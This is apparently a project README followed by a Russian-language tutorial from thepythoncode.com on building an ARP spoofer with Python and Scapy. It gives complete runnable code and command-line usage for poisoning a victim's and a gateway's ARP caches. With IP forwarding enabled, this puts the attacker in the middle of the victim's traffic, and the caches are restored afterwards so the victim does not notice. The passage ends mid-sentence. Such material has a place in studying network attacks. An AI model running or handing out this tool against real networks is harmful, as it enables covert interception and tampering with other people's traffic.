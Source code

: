 # [Building an ARP Spoofer](https://www.thepythoncode.com/article/building-arp-spoofer-using-scapy)
to run this:
- `pip3 install -r requirements.txt`
- 
    ```
    python3 arp_spoof.py --help
    ```
    **Output**:
    ```
    usage: arp_spoof.py [-h] [-v] target host

    ARP spoof script

    positional arguments:
    target         Victim IP Address to ARP poison
    host           Host IP Address, the host you wish to intercept packets for
                    (usually the gateway)

    optional arguments:
    -h, --help     show this help message and exit
    -v, --verbose  verbosity, default is True (simple message each second)
    ```
    For instance, if you want to spoof **192.168.1.2** and the gateway is **192.168.1.1**:
    ```
    python3 arp_spoof 192.168.1.2 192.168.1.1 --verbose
    ```
##
# [Building an ARP Spoofer](https://www.thepythoncode.com/article/building-arp-spoofer-using-scapy)
Что такое ARP Спуфинг
Короче говоря, это метод получения ситуации «человек посередине». Технически говоря, это метод, с помощью которого злоумышленник отправляет поддельные ARP-пакеты (ложные пакеты) в сеть (или конкретные хосты), позволяя злоумышленнику перехватывать, изменять или модифицировать сетевой трафик на лету.

Как только вы (как злоумышленник) станете человеком посередине, вы можете буквально перехватить или изменить все, что проходит в или из устройства жертвы. Итак, в этом уроке мы напишем скрипт Python, чтобы сделать именно это.

В обычной сети все устройства обычно обмениваются данными со шлюзом, а затем с Интернетом, как показано на следующем рисунке:

Регулярная сеть

Теперь злоумышленнику необходимо отправить ARP-ответы обоим хостам:

Отправка ARP-ответа шлюзу со словами«У меня есть IP-адрес жертвы».
Отправка ARP-ответа жертве, в котором говорится, что «у меня есть IP-адрес шлюза».
Подделка ARP

Как только злоумышленник выполнит атаку ARP Spoof, как показано на предыдущем рисунке, он окажется в ситуации «человек посередине»:

Человек в средней ситуацииВ этот момент, как только жертва отправляет какой-либо пакет (например, HTTP-запрос), он сначала передается на машину злоумышленника. Затем он перенаправит пакет на шлюз, поэтому, как вы можете заметить, жертва не знает об этой атаке. Другими словами, они не смогут понять, что на них нападают.

	Ладно, хватит теории! Прежде чем мы начнем, вам необходимо установить необходимые библиотеки:

    ```
	pip3 install scapy
    ```
    
	Проверьте этот учебник, чтобы заставить Scapy правильно работать на вашем компьютере, если вы используете Windows. Дополнительно необходимо установить pywin32, например:

    ```
	pip3 install pywin32
    ```

Получите: Создайте 24 этических хакерских скрипта и инструмента с помощью Python Book
Написание скрипта Python
Прежде всего, нам нужно импортировать необходимые модули:
    ```
from scapy.all import Ether, ARP, srp, send
import argparse
import time
import os
import sys
    ```
Примечание: Вам нужно иметь библиотеку Scapy, установленную на вашем компьютере, перейдите к этому сообщению или официальному веб-сайту Scapy.

В начале я должен упомянуть, что нам нужно включить IP-пересылку.

Существует множество способов включения IP-маршрутизации на различных платформах. Тем не менее, я сделал модуль python здесь, чтобы включить IP-маршрутизацию в Windows, не беспокоясь ни о чем.

Для Unix-подобных пользователей (платформа, предлагаемая для этого учебника) вам нужно отредактировать файл "/proc/sys/net/ipv4/ip_forward", который требует доступа root, и поставить значение 1, которое указывает как включенное. Ознакомьтесь с этим руководством для получения дополнительной информации. Эта функция делает это в любом случае:
    ```
def _enable_linux_iproute():
    """
    Enables IP route ( IP Forward ) in linux-based distro
    """
    file_path = "/proc/sys/net/ipv4/ip_forward"
    with open(file_path) as f:
        if f.read() == 1:
            # already enabled
            return
    with open(file_path, "w") as f:
        print(1, file=f)
    ```
Для пользователей Windows после копирования services.py в текущий каталог можно скопировать и вставить следующую функцию:
    ```
def _enable_windows_iproute():
    """
    Enables IP route (IP Forwarding) in Windows
    """
    from services import WService
    # enable Remote Access service
    service = WService("RemoteAccess")
    service.start()
    ```
Приведенная ниже функция управляет включением IP-маршрутизации на всех платформах:
    ```
def enable_ip_route(verbose=True):
    """
    Enables IP forwarding
    """
    if verbose:
        print("[!] Enabling IP Routing...")
    _enable_windows_iproute() if "nt" in os.name else _enable_linux_iproute()
    if verbose:
        print("[!] IP Routing enabled.")
    ```
Теперь давайте перейдем к классным вещам. Во-первых, нам нужна функция утилиты, которая позволяет нам получить MAC-адрес любой машины в сети:
    ```
def get_mac(ip):
    """
    Returns MAC address of any device connected to the network
    If ip is down, returns None instead
    """
    ans, _ = srp(Ether(dst='ff:ff:ff:ff:ff:ff')/ARP(pdst=ip), timeout=3, verbose=0)
    if ans:
        return ans[0][1].src
    ```
Связанные с: Как сделать изменение MAC-адреса в Python

Мы используем функцию srp() Scapy, которая отправляет запросы в виде пакетов и продолжает прослушивать ответы; в этом случае мы отправляем запросы ARP и прослушиваем любые ответы ARP.

Во-вторых, мы собираемся создать функцию, которая выполняет основную работу этого учебника; учитывая целевой IP-адрес и IP-адрес хоста, он изменяет кэш ARP целевого IP-адреса, говоря, что у нас есть IP-адрес хоста:
    ```
def spoof(target_ip, host_ip, verbose=True):
    """
    Spoofs `target_ip` saying that we are `host_ip`.
    it is accomplished by changing the ARP cache of the target (poisoning)
    """
    # get the mac address of the target
    target_mac = get_mac(target_ip)
    # craft the arp 'is-at' operation packet, in other words; an ARP response
    # we don't specify 'hwsrc' (source MAC address)
    # because by default, 'hwsrc' is the real MAC address of the sender (ours)
    arp_response = ARP(pdst=target_ip, hwdst=target_mac, psrc=host_ip, op='is-at')
    # send the packet
    # verbose = 0 means that we send the packet without printing any thing
    send(arp_response, verbose=0)
    if verbose:
        # get the MAC address of the default interface we are using
        self_mac = ARP().hwsrc
        print("[+] Sent to {} : {} is-at {}".format(target_ip, host_ip, self_mac))
    ```
Связанные с: Создание 24 этических хакерских скриптов и инструментов с помощью Python Book

Приведенный выше код получает MAC-адрес цели, создает вредоносный пакет ответа (ответа) ARP, а затем отправляет его.

Как только мы захотим остановить атаку, нам нужно переназначить реальные адреса целевому устройству (а также шлюзу), если мы этого не сделаем, жертва потеряет подключение к Интернету, и будет очевидно, что что-то произошло, мы не хотим этого делать, мы отправим семь законных пакетов ответа ARP (обычная практика) последовательно:
    ```
def restore(target_ip, host_ip, verbose=True):
    """
    Restores the normal process of a regular network
    This is done by sending the original informations 
    (real IP and MAC of `host_ip` ) to `target_ip`
    """
    # get the real MAC address of target
    target_mac = get_mac(target_ip)
    # get the real MAC address of spoofed (gateway, i.e router)
    host_mac = get_mac(host_ip)
    # crafting the restoring packet
    arp_response = ARP(pdst=target_ip, hwdst=target_mac, psrc=host_ip, hwsrc=host_mac, op="is-at")
    # sending the restoring packet
    # to restore the network to its normal process
    # we send each reply seven times for a good measure (count=7)
    send(arp_response, verbose=0, count=7)
    if verbose:
        print("[+] Sent to {} : {} is-at {}".format(target_ip, host_ip, host_mac))
    ```
Это было похоже на функцию spoof(), и единственное отличие заключается в том, что она отправляет несколько легитимных пакетов. Другими словами, он посылает правдивую информацию.

Теперь нам нужно будет написать основной код, который подделывает оба; цель и хост (шлюз) бесконечно до тех пор, пока не будет обнаружен CTRL+C, поэтому мы восстановим исходные адреса:
    ```
if __name__ == "__main__":
    # victim ip address
    target = "192.168.1.100"
    # gateway ip address
    host = "192.168.1.1"
    # print progress to the screen
    verbose = True
    # enable ip forwarding
    enable_ip_route()
    try:
        while True:
            # telling the `target` that we are the `host`
            spoof(target, host, verbose)
            # telling the `host` that we are the `target`
            spoof(host, target, verbose)
            # sleep for one second
            time.sleep(1)
    except KeyboardInterrupt:
        print("[!] Detected CTRL+C ! restoring the network, please wait...")
        restore(target, host)
        restore(host, target)
    ```
Получите: Создайте 24 этических хакерских скрипта и инструмента с помощью Python Book

Я запустил сценарий на машине Linux. Вот скриншот моего результата:

Результат выполнения скрипта ARP Spoof

В этом примере я использовал свой персональный компьютер в качестве жертвы. Если вы попытаетесь проверить кэш ARP:

После атаки подмены ARP

Вы увидите, что MAC-адрес злоумышленника (в данном случае «192.168.1.105») совпадает с адресом шлюза. Мы абсолютно одурачены!

На компьютере злоумышленника, когда вы нажимаете CTRL + C, чтобы закрыть программу, вот скриншот процесса восстановления:

Восстановление исходных адресов

Вернувшись к компьютеру жертвы, вы увидите, что исходный MAC-адрес шлюза восстановлен: